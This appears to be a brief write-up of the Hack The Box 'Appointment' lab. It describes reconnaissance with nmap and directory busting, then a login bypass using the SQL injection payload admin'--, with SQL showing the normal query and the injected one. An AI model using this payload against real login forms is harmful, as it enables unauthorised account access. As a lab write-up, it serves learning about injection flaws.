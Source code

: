 ```yaml
---
layout: post
title: 00 - Appointment
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Appointment]
tags: [SQL_Injection]
---
```

# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Linux | 10/05/2022 | 10/05/2022 |


# Thought process
1. View running services with `nmap`.
2. Check if there were subdirectories with the `dirbust`.
3. Since it was a LogIn, see if SQL Injection can be done.


# Resolution
To Login a Web is just a SELECT to the database, but if in the username you write **admin'--** the rest of the query is commented out and does not look for a password. SQL Injection. 

> Normal Login Query
```sql
SELECT * FROM users WHERE name='admin' and password='123456aA'
```

> Query with SQL Injection
```sql
SELECT * FROM members WHERE username = 'admin'--' AND password = '123456aA'
```


# Links
[SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
